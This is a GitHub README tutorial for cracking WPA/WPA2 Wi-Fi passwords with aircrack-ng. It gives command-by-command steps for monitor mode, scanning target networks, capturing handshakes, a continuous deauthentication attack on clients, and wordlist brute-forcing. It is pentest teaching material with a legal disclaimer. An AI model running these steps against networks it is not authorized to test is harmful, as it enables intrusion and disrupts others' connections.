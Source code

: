 # Wi-Fi Cracking Tutorial: WPA/WPA2 Cracking with Aircrack-ng

## Introduction
This the next part of https://github.com/Officerwasu/Wi-Fi_pentesting 

Read that first.

**Disclaimer:** *This tutorial is for educational purposes only. Attempting to crack Wi-Fi networks for which you do not have explicit permission is illegal and unethical. Always respect privacy and operate within legal boundaries.*

## Prerequisites
List what the user needs before they start:
* **Hardware:**
    * Wireless network adapter capable of monitor mode and packet injection.
* **Software:**
    * Any linux distro with sudo permissions.
    * aircrack-ng suite

## Setup
Instructions for any initial setup:
1.  Installing necessary tools.
    ```bash
    sudo apt update && sudo apt install aircrack-ng
    ```
2.  Ensuring your wireless adapter is recognized and can be put into monitor mode.
    * `ifconfig`
    * `ifconfig [wireless interface, eg wlan0]`
       * Example: ![Monitor Mode Activation](images/ifconfig.png)
    * `sudo airmon-ng start wlan0`
       * Example: ![Monitor Mode Activation](images/monitor_mode.png)

## Tutorial Steps

### Step 1: Scanning for Target Networks
1. `sudo airodump-ng wlan0`
2.  It will show you all the wifi networks in your vicinity
3.  What to look for BSSID, CH, ESSID of the target network.
     * Example: ![Airodump Scan](images/airodump.png)
    

### Step 2: Capturing the Handshake
1.  `sudo airodump-ng -c [channel] --bssid [BSSID] --write capture wlan0`.
    * Example: ![Handshake Capture](images/handshake.png)
      
2.  (Optional) Deauthenticating a client to speed up handshake capture.
    * `sudo aireplay-ng --deauth 0 -a [BSSID] wlan0`
        * Example:
        * ![Deauth Attack](images/deauth.png)

### Step 3: Cracking the Password
Brute-force attack.
1.  Using Aircrack-ng with a wordlist:
    *`aircrack-ng [capturefile.cap] -w [path to wordlist]`.
    * Example: ![Aircrack Success](images/aircrack.png)


### Step 4: [Cleanup]
1.  Well we found the key
2.  `sudo airmon-ng stop wlan0` and `sudo sservice NetworkManager restart`
     * Example: ![Network Restored](images/restored.png)

        
